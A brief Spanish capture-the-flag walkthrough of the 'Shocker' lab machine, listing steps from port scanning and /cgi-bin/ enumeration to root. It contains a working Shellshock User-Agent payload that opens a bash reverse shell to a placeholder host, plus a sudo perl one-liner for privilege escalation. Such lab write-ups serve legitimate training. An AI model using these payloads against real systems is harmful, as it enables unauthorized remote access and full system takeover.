


Shocker
- Realizo un escaneo de puertos nmap -Pn -sC -sV -p- --open 10.10.10.56 -oN scan.txt
- Están los servicios SSH y HTTP abiertos
- Hago una vista por encima a la página pero no veo nada interesante
- Miro el código de la página y no veo nada interesante
- Realizo un escaneo de directorios para ver si encuentro algo interesante
- No encuentro nada
- Voy a volver y voy a analizar el directorio /cgi-bin/
- Encuentro /cgin-bin/user.sh

- Al entrar en esta ruta se nos descarga un archivo
- Analizo la ruta con burpsuite
- Lo envio al repeater
- Es una solicitud GET
- Creo que tiene la vulnerabilidad Shellshock

- Puedo obtener un reverse shell a través de ahí User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
- Obtengo el reverse shell
- Obtengo la flag user.txt
- Realizo un sudo -l para ver que puedo ejecutar como root
- Encuentro que puedo ejecutar el comando perl como root
- Busco en gtfobinds y encuentro como escalar privilegios sudo perl -e 'exec "/bin/sh";'
- Encuentro la flag root.txt